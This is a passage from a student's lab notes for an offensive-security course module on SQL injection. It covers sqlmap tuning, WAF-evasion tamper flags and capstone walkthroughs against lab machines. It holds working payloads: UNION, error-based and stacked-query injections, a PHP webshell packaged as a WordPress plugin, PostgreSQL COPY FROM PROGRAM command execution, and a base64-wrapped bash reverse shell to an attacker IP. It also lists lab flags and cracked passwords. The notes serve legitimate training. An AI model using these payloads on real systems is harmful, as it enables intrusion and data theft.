| 1 | admin | 21232f297a57a5a743894a0e4a801fc3 (`admin`) | this is the admin |
| 2 | offsec | f9664ea1803311b35f81d07d8c9e072d (`lab`) | try harder |
| 3 | boba | 5f4dcc3b5aa765d61d8327deb882cf99 (`password`) | OS{931f7acc914a8e44179940a4343e0b2f} |
| 4 | han | 5653c6b1f51852a6351ec69c8452abc6 (`solo`) | pew pew |

*Bonus sqlmap feature: once it recognized the `password` column held MD5 hashes, it offered to crack them on the spot via its bundled dictionary (`/usr/share/sqlmap/data/txt/wordlist.tx_`), no separate hashcat/john step needed for weak passwords like these.*

> **Lab answer, VM #2 (sqlmap):** the flag was hidden in the **`description`** field, not a dedicated flag column, tucked into user `boba`'s row: **`OS{931f7acc914a8e44179940a4343e0b2f}`**.

**Step 3: Get a full interactive OS shell via `--os-shell` (for UNION-based injections, much faster than time-based for this)**

First, capture the vulnerable POST request in Burp and save it to a file (e.g. `post.txt`).

Then:
```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```
*`-r` reads the request from a saved file instead of building one from a URL, `--web-root` tells sqlmap where to try writing its webshell stager, matching whatever writable path you found earlier.*
*You'll be prompted for the backend language (PHP, ASP, ASPX, JSP), pick whichever matches your target. sqlmap then uploads a stager + webshell automatically and drops you into an `os-shell>` prompt.*

🔁 **Similar to:** `--os-shell` is doing exactly the same `INTO OUTFILE` + webshell trick from 10.3.1 manually, sqlmap just automates the write, the upload, and the `cmd`-parameter interaction into one flow.

> ⚡ **On [[MODERN TOOLING]] for this module:** deliberately no addition. sqlmap, covered above, already *is* the automation tool this whole category is about, it's not something to "speed up" further, it's core curriculum here. See [[MODERN TOOLING#Modules with no addition, and why|MODERN TOOLING's own note]] on why this module is a deliberate skip.

> 📋 Generalized copy-pasteable commands for this technique: [[SQL Injection & Databases#Sqlmap|Command Appendix]]
> 🧭 Quick lookup: [[SQL Injection & Databases (Decision Tree)|Decision Tree]]

#### Tags: #Sqlmap #SqlmapDump #SqlmapOsShell #WebRootParam

**Lab status: ✅ Completed:**

| Question | Status |
|---|---|
| MSSQL VM #1: which config option must be enabled before `xp_cmdshell` itself? | **`show advanced options`** |
| MySQL VM #2 (manual): flag in the `tmp` folder after getting a webshell via UNION + `INTO OUTFILE`? | **OS{70f90225e57520ca75e9de855b196896}** |
| MySQL VM #2 (sqlmap): flag from the `users` table, dumped via time-based blind SQLi? | **OS{931f7acc914a8e44179940a4343e0b2f}** |

#### Tags: #Lab #Quiz #Module10

---

### 10.3.3. Advanced SQLMap Usage

10.3.2 covers the basic discovery-to-dump-to-shell flow. sqlmap's full flag set handles every awkward case that basic usage doesn't: non-standard injection points, WAF/filter evasion, and squeezing more out of an already-confirmed injection.

**The six techniques sqlmap tries, fastest to slowest**, worth knowing the letters for `--technique=`:

| Letter | Technique | Speed | Mechanism |
|---|---|---|---|
| `U` | UNION query-based | Fastest | Second SELECT appended, data comes back inline |
| `E` | Error-based | Fast | DB error messages carry the extracted data |
| `Q` | Inline queries | Fast | A subquery in the SELECT list returns data directly |
| `S` | Stacked queries | Medium | `;`-separated second statement (e.g. `xp_cmdshell`) |
| `B` | Boolean-based blind | Slow | One true/false bit at a time |
| `T` | Time-based blind | Slowest | `SLEEP()` delays encode the answer, no data in the response |

> 🔍 **Worth remembering generally:** if a WAF blocks UNION/error payloads, sqlmap falls back toward time-based blind, which can take hours to dump a table. `--technique=` restricts which methods it even tries, worth forcing away from time-based whenever a faster one is actually viable.

**Marking non-standard injection points** sqlmap can't auto-detect (a cookie value, a custom header, a specific spot in a URL): use a literal `*` at the exact position.
```bash
sqlmap -u 'http://TARGET/page.php' -H 'Cookie: id=*' --batch --dump
sqlmap -u 'http://TARGET/page.php?id=*' --batch --dump
```

**JSON, multipart, or otherwise complex bodies**: capture the full raw HTTP request (Burp "Save item", or DevTools Network tab copy) into a file and let sqlmap replay it verbatim, this handles cases `-u`/`--data` can't represent cleanly:
```bash
sqlmap -r request.req --batch --dump
```

**Tuning when default detection misses something:**
- `--level 1-5` / `--risk 1-3`: level controls *where* sqlmap looks (1=URL params only, 5=adds User-Agent/Referer/Host headers too), risk controls *how aggressive* the payloads get (3 includes OR-based payloads that can modify data, avoid on anything with live traffic). `--level 5 --risk 3` is the "try everything" setting.
- `--prefix='...'`: when the injection point sits inside a function call or unusual bracket nesting the default payloads don't account for, supply the exact string that closes the surrounding structure before your injected SQL begins. Inspect the error/page source to work out the nesting first.
- `--union-cols=N`: force a specific UNION column count instead of trusting auto-detection, useful when the app itself filters on a particular count.

**Narrowing the dump** (critical on anything time-based, every unnecessary field costs real minutes):
```bash
sqlmap -u '...' --dbs                          # database names only
sqlmap -u '...' -D testdb --tables             # tables in one database
sqlmap -u '...' -D testdb -T users --columns    # columns in one table
sqlmap -u '...' -D testdb -T users --dump       # the actual data
sqlmap -u '...' --search -C style               # search for a column/table/db by keyword (-C/-T/-D)
```
Dumps save to `~/.local/share/sqlmap/output/<host>/dump/<db>/<table>.csv`, worth checking directly if terminal output scrolls past. sqlmap also offers to crack any password-shaped column it dumps against its bundled wordlist on the spot, convenient for weak hashes, fall back to hashcat/john for anything it misses (the hash is still saved in the CSV either way).

**Bypassing app-level protections:**
```bash
# CSRF token that rotates per request: name the field, sqlmap re-fetches + substitutes it each time
sqlmap -u 'http://TARGET/page.php' --data 'id=1&t0ken=<current-value>' --csrf-token=t0ken --batch --dump

# A parameter that must be unique per request (e.g. a transaction UID)
sqlmap -u 'http://TARGET/page.php?id=1&uid=123' --randomize=uid --batch --dump

# WAF blocking sqlmap's own User-Agent string
sqlmap -u 'http://TARGET/page.php' --data 'id=1' --random-agent --batch --dump

# Tamper scripts transform the payload itself to dodge string-matching filters
sqlmap -u 'http://TARGET/page.php?id=1' --tamper=between --batch --dump
```
`--tamper=between` (rewrites `>`/`=` comparisons as `BETWEEN`) is the single most broadly useful tamper script for OSCP-style targets, non-destructive and handles a common class of WAF. Other useful ones: `space2comment` (spaces → `/**/`), `randomcase` (randomizes SQL keyword case), `charencode` (URL-encodes non-standard characters). Chain several comma-separated: `--tamper=between,space2comment,randomcase`. Full list: `ls /usr/share/sqlmap/tamper/`.

**File read and OS shell, sqlmap's automated version of 10.3.1's manual techniques:**
```bash
# Reads via the same LOAD_FILE() mechanism as the manual UNION approach, handles chunking automatically
sqlmap -u 'http://TARGET/?id=1' --file-read "/var/www/html/flag.txt" --batch
# Saved to: ~/.local/share/sqlmap/output/<host>/files/_var_www_html_flag.txt

# Automates the INTO OUTFILE stager-then-webshell dance from 10.3.1, drops you into an os-shell> prompt
sqlmap -u 'http://TARGET/?id=1' --os-shell --technique=E --batch
```
> 🔧 **Technique:** `--technique=E` (error-based) for `--os-shell` is usually faster than letting sqlmap default to whatever it auto-detected, especially if that happens to be time-based. If sqlmap can't find a writable web root on its own, supply `--web-root "/path"` from whatever a prior config-file `LOAD_FILE()` (10.3.1) already told you.

**Skills assessment: a JSON-body target behind a WAF**, the full evasion stack chained together. Capture the JSON POST to a file, then:
```bash
sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=T
```
Once table names start appearing (`categories`, `products`, `final_flag`...), Ctrl+C rather than let it dump everything, then re-run narrowed to just the target:
```bash
sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=T -D production -T final_flag
```



> 📸 Screenshot: sqlmap's time-blind retrieval finishing on the narrowed `final_flag` table, flag visible in the `content` column

**Lab status: ✅ Completed** (all technique labs + skills assessment):

| Question | Answer |
|---|---|
| Fastest injection technique? | **UNION query-based** |
| POST-body injection flag? | **HTB{700_much_c0n6r475_0n_p057_r3qu357}** |
| Cookie-header injection flag? | **HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}** |
| JSON-body (via `-r`) injection flag? | **HTB{j450n_v00rh335_53nd5_6r475}** |
| `--level 5 --risk 3` flag? | **HTB{700_much_r15k_bu7_w0r7h_17}** |
| `--prefix` flag? | **HTB{v1nc3_mcm4h0n_15_4570n15h3d}** |
| `--union-cols` flag? | **HTB{un173_7h3_un173d}** |
| Basic `--dump` flag? | **HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}** |
| `--search -C` column found? | **PARAMETER_STYLE** |
| In-tool cracked password? | **Enizoom1609** |
| `--csrf-token` flag? | **HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}** |
| `--randomize` flag? | **HTB{700_much_r4nd0mn355_f0r_my_74573}** |
| `--random-agent` flag? | **HTB{y37_4n07h3r_r4nd0m1z3}** |
| `--tamper=between` flag? | **HTB{5p3c14l_ch4r5_n0_m0r3}** |
| `--file-read` flag? | **HTB{5up3r_u53r5_4r3_p0w3rful!}** |
| `--os-shell` flag? | **HTB{n3v3r_run_db_45_db4}** |
| Skills Assessment flag? | **HTB{n07_50_h4rd_r16h7?!}** |

#### Tags: #Sqlmap #SqlmapTuning #TamperScripts #WAFBypass #CSRFToken #FileRead #OSShell #SkillsAssessment #Module10

---

## 🏆 Capstone Labs

Separate section for these, since capstones don't come with a pre-identified technique. Each one is "enumerate this VM and find the SQLi vulnerability yourself," so there's no fixed set of steps to write up in advance, unlike [[10. SQL Injection Attacks#10.1. SQL Theory and Databases|10.1]] to [[10. SQL Injection Attacks#10.3. Manual and Automated Code Execution|10.3]] above where the module already tells you exactly what to test. The scaffold below gets filled in live as each one gets tackled, same case-study format as everywhere else in this vault (steps, commands, screenshots).

**If you get stuck on identifying the vulnerability:** [[SQL Injection & Databases (Decision Tree)#Found a login form, search box, or any URL/POST parameter that likely touches a database|Decision Tree's SQLi triage entry]] walks through the same test-arithmetic → test-templates → test-metacharacters style diagnostic sequence as [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1's command injection capstone]]. For exact syntax once you've found it, see [[SQL Injection & Databases#SQL Injection Payloads|the Command Appendix's SQLi payload list]] or [[10. SQL Injection Attacks#10.2. Manual SQL Exploitation|10.2]]'s full walkthroughs.

### Capstone: Exercise VM #1

> 🔧 Technique: unauthenticated SQLi in a WordPress plugin (CVE-2021-24762, Perfect Survey ≤1.5.1), automated with sqlmap, escalated to admin creds, then to full RCE via a malicious plugin upload.

Target: `192.168.156.47`. No pre-identified technique for this one, full enumeration from scratch:

**Step 1: Port scan**
```bash
nmap -sC -sV -p- 192.168.156.47
```
Only SSH (22) and HTTP (80, Apache 2.4.52) open. `http-title: Alvida Coffee`.

**Step 2: Check the web root**
```bash
curl http://192.168.156.47/
```
Just a static "coming soon" landing page, no forms. But the page text itself linked to a second hostname, `alvida-eatery.local`, classic vhost pivot pattern (see [[Web Applications (Decision Tree)#A site's own content mentions another hostname/domain you haven't scanned yet|Decision Tree entry]]).
![[Pasted image 20260803232056.png]]

**Step 3: Add the vhost and check it**
```bash
echo "192.168.156.47 alvida-eatery.local" | sudo tee -a /etc/hosts
curl http://alvida-eatery.local/
```
Full WordPress 6.0 site (OceanWP theme, Elementor, WPForms Lite, Perfect Survey plugin visible in the loaded asset paths).

**Step 4: Fingerprint the Perfect Survey plugin's version**
```bash
curl http://alvida-eatery.local/wp-content/plugins/perfect-survey/readme.txt
```
`Stable tag: 1.5.1`.

**Step 5: Search for a public exploit**
```bash
searchsploit perfect survey
```
Exact hit: `WordPress Plugin Perfect Survey - 1.5.1 - SQLi (Unauthenticated)`, CVE-2021-24762.

**Step 6: Read the exploit before running it**
```bash
searchsploit -m php/webapps/50766.py
cat 50766.py
```
It's just a thin wrapper around sqlmap targeting `wp-admin/admin-ajax.php?action=get_question&question_id=1`, the `question_id` GET parameter goes straight into a SQL query in the plugin's unauthenticated AJAX handler. Ran sqlmap directly instead of the wrapper script.
![[Pasted image 20260803232223.png]]

**Step 7: Confirm the injection**
```bash
sqlmap -u "http://alvida-eatery.local/wp-admin/admin-ajax.php?action=get_question&question_id=1" -p question_id --batch
```
Got a 404 abort at first, since this endpoint *always* answers with HTTP 404 even on a normal response (confirmed via `curl -i` showing a valid JSON body alongside the 404 status). Re-ran with `--ignore-code=404` (see [[SQL Injection & Databases (Decision Tree)#sqlmap immediately bails with "page not found (404)" or similar HTTP-error abort, even though the endpoint clearly works|Decision Tree entry]]):
```bash
sqlmap -u "http://alvida-eatery.local/wp-admin/admin-ajax.php?action=get_question&question_id=1" -p question_id --batch --ignore-code=404
```
Confirmed: `question_id` (GET) injectable via MySQL time-based blind (`AND (SELECT ... SLEEP(5))`).

**Step 8: Enumerate and dump `wp_users`**
```bash
sqlmap -u "..." -p question_id --batch --ignore-code=404 --dbs
sqlmap -u "..." -p question_id --batch --ignore-code=404 -D wordpress -T wp_users --dump
```
One row: `admin` / `$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0` (WordPress phpass hash, a password hashing scheme used by WordPress and PHP applications, recognisable by the `$P$` prefix). sqlmap's own dictionary cracker (smalldict.txt) came back empty.

**Step 9: Crack the hash with John + rockyou**
```bash
echo 'admin:$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0' > /tmp/wp_hash.txt
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt /tmp/wp_hash.txt
```
Cracked in seconds: `admin` / `hulabaloo`.
![[Pasted image 20260803232343.png]]

**Step 10: Log into wp-admin, get RCE**

Logged in via the browser at `/wp-login.php`. Tried the built-in **Appearance → Theme File Editor** first (edit `404.php`, insert `<?php system($_GET['cmd']); ?>`), but WordPress's fatal-error-protection loopback check failed ("Unable to communicate back with site... PHP change was reverted", see [[Web Applications (Decision Tree)#Got WordPress admin creds, but Appearance/Plugin Editor says "Unable to communicate back with site... PHP change was reverted"|Decision Tree entry]]), common on isolated lab networks where the server can't loop back to its own hostname.

Went around it with a plugin upload instead:
```bash
mkdir /tmp/shell
cat > /tmp/shell/shell.php << 'EOF'
<?php
/*
Plugin Name: shell
*/
system($_GET['cmd']);
EOF
cd /tmp && zip -r shell.zip shell
```
Uploaded via **Plugins → Add New → Upload Plugin**, Install, Activate. No hook on the code, so it runs on every page load once active.
![[Pasted image 20260803232444.png]]

**Step 11: Confirm RCE and find the flag**
```bash
curl "http://alvida-eatery.local/?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl "http://alvida-eatery.local/?cmd=find+/+-iname+*flag*+2>/dev/null"
# /var/www/flag.txt

curl "http://alvida-eatery.local/?cmd=cat+/var/www/flag.txt"
```
![[Pasted image 20260803232523.png]]

**Lab answer:** **`OS{8efde9c5b36a457f6269bc453f1f1f3d}`**

---

### Capstone: Exercise VM #2

> 🔧 Technique: error-based SQLi (`extractvalue()`) on a POST-based newsletter subscribe form, done entirely manually, no sqlmap this time (deliberate, for the extra practice).

Target: `192.168.156.48`. No credentials provided.

**Step 1: Port scan**
```bash
nmap -sC -sV -p- 192.168.156.48
```
SSH (22), nginx/1.14.2 (80, "Animal World"), and MySQL exposed directly on both 3306 and 33060.

**Step 2-3: Web recon**
```bash
curl http://192.168.156.48/
curl http://192.168.156.48/donate.php
```
Static Bootstrap template site (`index.php`, `about.php`, `donate.php`), no real forms on the visible pages besides an empty-action donate button.

**Step 4: Directory brute force**
```bash
gobuster dir -u http://192.168.156.48/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -t 50
feroxbuster -u http://192.168.156.48/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php -t 100 -C 404
```
Nothing hidden, only the same three PHP pages and static assets.

**Step 5: Vhost pivot attempt (false lead this time)**
The homepage's contact email is `lab@forestsave.lab`, same "site mentions another hostname" pattern as [[10. SQL Injection Attacks#🏆 Capstone Labs|Capstone VM #1]]. Added it to `/etc/hosts` and checked, but it just resolved to the identical site, not a separate vhost this time. Worth checking, not guaranteed to pay off every time.

**Step 6: Found the real injection point**
The homepage's newsletter subscribe form (`<form method="POST">`, field `mail-list`) was the only actual input field anywhere on the site:
```bash
curl -X POST --data "mail-list=test'" http://192.168.156.48/index.php
```
Response included a raw MySQL error: `You have an error in your SQL syntax ... near ''test''' at line 1`, confirming injection on an **INSERT** statement (the newsletter signup itself). Nothing reflects back on success, so no visible boolean oracle to key off of for boolean-based blind.

**Step 7: Confirmed time-based blind works, but error-based is faster**
```bash
time curl -X POST --data "mail-list=test' OR SLEEP(5)-- -" http://192.168.156.48/index.php -o /dev/null -s
```
Delay was ~30s for a `SLEEP(5)` payload, a consistent 6x multiplier (confirmed again at `SLEEP(1)` → ~6s), later explained by the table having exactly 6 rows. Since the app **does** echo raw SQL error text though, error-based extraction via `extractvalue()` is much faster than timing every guess byte-by-byte, same trick as [[10. SQL Injection Attacks#10.2.1. Identifying SQLi via Error-Based Payloads|10.2.1]]:
```bash
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT version())))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# XPATH syntax error: '~8.0.29'
```
> 🔍 Full piece-by-piece breakdown of this payload (why each fragment is there, where the trick comes from, where to spot it in the response): [[SQL Injection (Breakdowns)#Error-based extraction via extractvalue() on a POST field|Command Breakdowns]]

**Step 8: Enumerate the database**
```bash
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT database())))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# animal_planet
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# subscribers
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='subscribers')))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# created_at,donor_type,emails,id
```
Only one table, `subscribers`, 6 rows (confirmed via `SELECT count(*)`). Dumped `emails`/`donor_type` per-row with `LIMIT $i,1` (since `extractvalue` truncates at 32 characters) and checked `created_at` too, nothing flag-shaped in any of it, just decoy donor records. Confirmed only 2 schemas exist (`information_schema`, `animal_planet`), so nothing hiding in another database either.
![[Pasted image 20260803235602.png]]

**Step 9: No flag in the DB, escalate to file read instead**
Since the injection point is inside an `INSERT ... VALUES(...)`, there's no `SELECT` context to hang `UNION`/`INTO OUTFILE` off of the way [[10. SQL Injection Attacks#10.3.1. Manual Code Execution|10.3.1]] did. `LOAD_FILE()` sidesteps that entirely, it's just a function callable from any subquery:
```bash
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT current_user())))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# gollum@localhost
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT privilege_type FROM information_schema.user_privileges WHERE grantee LIKE '%gollum%')))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# FILE
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,(SELECT @@secure_file_priv)))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# (empty = unrestricted path)
```
`FILE` privilege confirmed, `secure_file_priv` empty (unrestricted). Confirmed read access with `/etc/passwd` first, then went straight for the same flag path pattern as VM #1 (`/var/www/flag.txt`):
```bash
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,substring((SELECT LOAD_FILE('/var/www/flag.txt')),1,31)))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# OS{e587b0099eca95c0f365a725c212
curl -s -X POST --data "mail-list=test' AND extractvalue(1,concat(0x7e,substring((SELECT LOAD_FILE('/var/www/flag.txt')),32,31)))-- -" http://192.168.156.48/index.php | grep -i "XPATH"
# 9e6a}
```
![[Pasted image 20260803235702.png]]

**Lab answer:** **`OS{e587b0099eca95c0f365a725c2129e6a}`**

---

### Capstone: Exercise VM #3

> 🔧 Technique: PostgreSQL error-based extraction via `CAST()` type-mismatch, escalating to full RCE through a superuser-only `COPY ... FROM PROGRAM` chain, done entirely manually. First PostgreSQL target in this module (VM #1/#2 were both MySQL).

Target: `192.168.170.49`. No credentials provided.

**Step 1: Port scan**
```bash
nmap -sC -sV -p- 192.168.170.49
```
SSH (22), Apache/2.4.54 "Golden Glove Gym" (80), and **PostgreSQL 13.5-13.9 exposed directly on 5432**. The exposed DB port turned out to be a strong early hint about the backend, not just a separate attack surface.
![[Pasted image 20260804103436.png]]

**Step 2-4: Web recon, hunting for a real input field**
```bash
curl -s http://192.168.170.49/
curl -s http://192.168.170.49/contact.php | grep -iE "<form|<input|name="
for p in about.php feature.php class.php; do echo "=== $p ==="; curl -s http://192.168.170.49/$p | grep -iE "<form|<input|name="; done
gobuster dir -u http://192.168.170.49/ -w /usr/share/wordlists/dirb/common.txt -x php -t 50
```
Plain bootstrap gym template, no `page=`-style parameter in the nav this time (different shape from VM #1). `contact.php`'s form had no `name=` attributes on its inputs, a dead end, not a real submission target. `class.php` had the real form: a "BMI calculator" (`weight`, `height`, `age`, `gender`, `email`, all POSTing to itself). Gobuster also turned up an open `/mail/` directory listing (just the template's stock contact-mailer script, a red herring).
![[Pasted image 20260804103612.png]]

**Step 5: Find the injectable field**
```bash
curl -s -X POST --data "weight=70&height=170'&age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php
```
Raw PostgreSQL error came back in the page body, leaking the backend query shape:
```
Warning: pg_query(): Query failed: ERROR: unterminated quoted string at or near "'"
LINE 1: select * from users where email like '%170'%'
```
`height` is the injectable field, and it's slotted into a `LIKE` clause searching `users.email`, an odd wiring (a "height" input feeding an email search), but that's exactly the kind of thing you only find by testing every field rather than assuming.
![[Pasted image 20260804103746.png]]
> 🔗 **HackTricks** PostgreSQL Injection: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/postgresql-injection/README.md) (covers the `CAST()` error-based trick; its `COPY FROM PROGRAM` RCE detail is thinner than PayloadsAllTheThings') · **PayloadsAllTheThings** PostgreSQL Injection: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based) (has dedicated "PostgreSQL Error Based" and "Using COPY TO/FROM PROGRAM" sections matching this exact chain)

**Step 6: Find the column count**
```bash
curl -s -X POST --data "weight=70&height=x%' ORDER BY 6-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "error|warning"
curl -s -X POST --data "weight=70&height=x%' ORDER BY 7-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "error|warning"
```
6 is silent, 7 errors (`ORDER BY position 7 is not in select list`). **6 columns**, same `ORDER BY` probing technique as [[10. SQL Injection Attacks#10.2.2. UNION-Based Payloads|10.2.2]], just against a Postgres backend instead of MySQL.

**Step 7: Discover none of the 6 columns render visibly**
```bash
curl -s -X POST --data "weight=70&height=x%' UNION SELECT 'a1',NULL,NULL,NULL,NULL,NULL-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -i "a1"
```
(repeated per column, swapping `NULL` for a marker one column at a time) Nothing ever printed on the page, same "no visible output" situation as [[10. SQL Injection Attacks#Capstone: Exercise VM #2|Capstone VM #2]]. But the *errors* along the way revealed column types: column 2 and 3 are integer, column 6 is a timestamp, confirmed by Postgres' `invalid input syntax for type X` errors echoing the literal value straight back.

**Step 8: Turn the type-mismatch error into a data-exfiltration channel**
```bash
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT version()) AS int),NULL,NULL,NULL,NULL-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
```
`CAST((subquery) AS int)` forces Postgres to try converting the subquery's real result into an integer, and when it fails, the error message contains the *actual value*, not just a generic complaint. Leaked the full version string: `PostgreSQL 13.7 (Debian 13.7-0+deb11u1)...`. This is the Postgres equivalent of MySQL's `extractvalue()` trick from [[10. SQL Injection Attacks#Capstone: Exercise VM #2|Capstone VM #2]], different mechanism (type-cast failure vs. XPath parsing failure), same underlying idea: abuse an error message as a data channel.

> 🔍 Full piece-by-piece breakdown of this payload: [[SQL Injection (Breakdowns)#PostgreSQL error-based extraction via CAST() type-mismatch|Command Breakdowns]]

**Step 9: Enumerate the database**
```bash
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT current_database()) AS int),NULL,NULL,NULL,NULL-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT string_agg(table_name, ',')) AS int),NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='public'-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT string_agg(column_name, ',')) AS int),NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
```
Database: `glovedb`. One table in the public schema: `users`, columns `weight, height, created_at, active, gender, email`. `string_agg()` is Postgres' `group_concat()`/`GROUP_CONCAT` equivalent, same `information_schema` lookup pattern as [[10. SQL Injection Attacks#10.2.2. UNION-Based Payloads|10.2.2]], DBMS-agnostic by design.

**Step 10: Dump the table (no flag)**
```bash
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT string_agg(weight || '|' || height || '|' || created_at || '|' || active || '|' || gender || '|' || email, ' ## ')) AS int),NULL,NULL,NULL,NULL FROM users-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
```
4 decoy signup rows, no `id`/`password` column at all, this table just logs class-registration form submissions. Unlike MySQL's `extractvalue()` (32-character truncation, needs `LIMIT`/`substring()` paging), Postgres' error text has no such cap, the whole concatenated dump came back in a single request.
![[Pasted image 20260804105200.png]]

**Step 11: No flag in the DB, check privileges before escalating**
```bash
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT current_user) AS int),NULL,NULL,NULL,NULL-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT string_agg(usename || ':' || CAST(usesuper AS text), ',')) AS int),NULL,NULL,NULL,NULL FROM pg_user-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
```
Current user `rubben`, confirmed `usesuper = true`. **Postgres superuser is the equivalent trigger MSSQL's `xp_cmdshell` needs `sysadmin` for** ([[10. SQL Injection Attacks#10.3.1. Manual Code Execution|10.3.1]]): once confirmed, `COPY ... FROM PROGRAM` unlocks arbitrary OS command execution.
![[Pasted image 20260804105226.png]]
**Step 12: RCE via `COPY FROM PROGRAM`, read back through the same leak channel**
```bash
curl -s -X POST --data "weight=70&height=x'; CREATE TABLE IF NOT EXISTS cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; -- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php

curl -s -X POST --data "weight=70&height=x%' UNION SELECT NULL,CAST((SELECT string_agg(cmd_output, ' | ')) AS int),NULL,NULL,NULL,NULL FROM cmd_exec-- &age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php | grep -iE "warning|error"
```
Confirmed RCE: `uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)`. This needed **stacked queries** (multiple `;`-separated SQL statements sent in a single call, effectively "stacking" extra commands onto the end of the original one), which only works here because the backend uses PHP's `pg_query()`, which allows it (unlike `mysqli_query`, which needs `multi_query` explicitly). `COPY FROM PROGRAM` pipes a command's stdout into a table as rows, there's no direct return channel, so the output has to be read back out through the same `CAST()`-error trick used for data extraction.

> 🔍 Full breakdown of the `COPY FROM PROGRAM` mechanics: [[SQL Injection (Breakdowns)#PostgreSQL RCE via COPY ... FROM PROGRAM (superuser only)|Command Breakdowns]]

**Step 13: Reverse shell**

Start a listener first:
```bash
nc -lnvp 4444
```
Base64-encode the payload (backgrounded, so the invoked program actually exits and `COPY FROM PROGRAM` completes):
```bash
echo -n 'bash -c "bash -i >& /dev/tcp/<YOUR_KALI_IP>/4444 0>&1 &"' | base64 -w0
```
> **🛠️ Troubleshooting hit: first attempt silently corrupted the payload.** Sent via plain `curl --data`, and the base64 string's `+` characters got turned into spaces in transit (visible in the resulting error: `JiAvZGV2...` where the original had `+JiAvZGV2...`). Same root cause as the `&`-in-a-reverse-shell issue already hit in [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1]], `curl --data` sends the value raw and unencoded, and a literal `+` in an `application/x-www-form-urlencoded` body means "space" to the receiving PHP. Base64 output frequently contains `+`, so it silently mangles. **Fix:** use `--data-urlencode` for that specific field so curl percent-encodes it properly.
```bash
curl -s -X POST --data "weight=70" --data-urlencode "height=x'; CREATE TABLE IF NOT EXISTS cmd_exec3(cmd_output text); COPY cmd_exec3 FROM PROGRAM 'echo <BASE64_HERE> | base64 -d | bash'; -- " --data "age=25&gender=Male&email=test@test.com" http://192.168.170.49/class.php
```
Listener caught a shell as `postgres` on `bian11-sqli-3-248-120`.
![[Pasted image 20260804105446.png]]

**Step 14: Find and read the flag**
```bash
whoami
id
find / -iname "*flag*" 2>/dev/null
cat /var/www/flag.txt
```
![[Pasted image 20260804105517.png]]

**Lab answer:** **`OS{6f00e38a78de748ad4b3abc3471bc4af}`**

---

### Capstone: Exercise VM #4

> 🔧 Technique: MSSQL SQLi against an ASP.NET WebForms login form, stacked-query `xp_cmdshell` RCE done entirely blind (no error-based read-back channel available on this app, unlike every other VM in this module), confirmed via a PowerShell download-cradle reverse shell landing on a listener instead.

Target: `192.168.170.50`. No credentials provided.

**Step 1: Port scan**
```bash
nmap -sC -sV -p- 192.168.170.50
```
